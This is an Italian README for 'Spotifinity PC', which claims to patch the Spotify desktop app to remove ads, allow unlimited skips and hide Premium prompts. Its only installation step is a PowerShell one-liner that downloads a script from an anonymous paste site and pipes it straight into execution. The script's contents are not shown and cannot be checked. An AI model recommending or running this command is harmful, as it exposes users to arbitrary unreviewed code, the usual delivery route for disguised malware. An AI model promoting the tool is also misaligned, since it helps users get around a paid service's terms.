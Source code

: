# Spotifinity PC
Ti piace Spotifinity su Android? Ora è su Windows!
## Come funziona?
- Installa l'ultima versione di Spotify
- Applica le varie patch con Spicetify
- Fatto!
## Installazione
Esegui questo comando in Powershell:
```ps
irm https://pastefy.app/XxHu5LvP/raw | iex
```
## Funzioni
- Niente pubblicità
- Skip illimitati
- Niente banner o tasto Premium
